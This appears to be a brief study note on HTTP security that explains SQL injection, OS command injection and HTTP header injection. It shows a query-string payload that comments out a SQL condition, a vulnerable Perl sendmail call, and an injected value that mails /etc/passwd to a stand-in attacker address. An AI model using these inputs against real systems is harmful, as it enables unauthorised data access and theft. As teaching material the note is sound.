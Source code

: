 # HTTP notes

### SQL Injection

This attack behavior may cause:

- Illegal look ups or changes on protected data.
- Escape from authorization
- Execute programs connected to database.

Eg: http://example.jp/search?q=abc

```mysql
SELECT * FROM bookTbl WHERE author='abc' and flag=1;
```

Change into: http://example.jp/search?q=abc'--

```MYSQL
SELECT * FROM bookTbl WHERE author='abc'--'and flag=1;
```

`flag=1` is commented!

### OS Injection

**OS Command Injection** uses Web applications to execute illegal OS commands. If there is any 

Eg:

```shell
my $adr = $q->param('mailaddress');
open(MAIL, "| /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n"
```

`open` function will use `sendmail` to send an e-mail, the attributed mail address is the `$adr` value.

The hacker will use the following value as the e-mail address:

```shell
; cat/etc/passwd | mail hack@example.jp
```

The command will be:

```shell
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

The program will run `cat /etc/passwd | mail hack@example.jp`. The file which contains account info will be sent by e-mail to hack@example.jp.

### HTTP Header Injection

The hacker inserts an line break and then adds any response header or body to launch an attack. This belongs to passive attack.
